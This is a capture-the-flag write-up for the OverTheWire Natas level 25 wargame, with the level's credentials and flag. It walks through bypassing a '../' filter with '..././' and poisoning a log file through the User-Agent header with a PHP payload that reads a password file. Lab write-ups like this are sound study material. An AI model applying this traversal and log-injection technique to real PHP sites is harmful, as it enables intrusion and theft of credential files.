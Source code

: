 # Natas25

*	user: `natas25`
*	pass: `GHF6X7YwACaYYssHVY05cFq83hRktl4c`
*	url: [http://natas25.natas.labs.overthewire.org](http://natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c@natas25.natas.labs.overthewire.org)
*	flag: `oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`

## Procedure

1.	At first look, seems that `lang` parameter could be the vehicle of
	the attack. According to the source code, some checks are performed
	on it...

2.	Firstly, we're not allowed to include `natas_webpass` string, so
	direct access to `/etc/natas_webpass/natas26` file is not feasible.

3.	Secondly, a check against the presence of `../` is performed. In
	this case, all the occurrences of `../` in `$filename` are removed.

4.	BINGO! The string "`..././`" will be converted in "`../`", so we are
	now allowed to fully visit the file system, and then, also the log
	file generated by `logRequest()`.

5.	Since `/etc/natas_webpass/natas26` is not directly accessible, we
	can try to access it via the log file. Fortunately, `logRequest()`
	function does not perform any check on the variable
	`$_SERVER['HTTP_USER_AGENT']`, so we can use it to inject the
	PHP code

		<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>

6.	Well. The attack is defined. A Python script
	([natas25.py](./scripts/natas25.py)) will do it on behalf us.

		$ python scripts/natas25.py
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->

		[cut]

		[01.05.2015 10::59:23] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
		 "Illegal file access detected! Aborting!"
		[01.05.2015 10::59:23] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
		 "Directory traversal attempt! fixing request."

		[cut]

		</body>
		</html>




